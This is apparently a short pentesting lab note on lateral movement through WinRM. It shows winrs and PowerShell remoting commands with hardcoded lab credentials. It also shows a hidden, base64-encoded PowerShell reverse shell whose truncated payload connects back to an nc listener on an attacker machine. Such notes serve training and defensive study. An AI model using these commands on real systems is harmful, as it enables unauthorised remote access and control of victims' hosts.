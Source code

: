 # Winrs

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [_WS-Management_](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [_winrs_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).

### Launch command

```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

### Open Reverse Shell

```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"

kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 65107
PS C:\Users\jen> hostname
FILES04
PS C:\Users\jen> whoami
corp\jen
```

### Powershell Remoting

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
  
Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

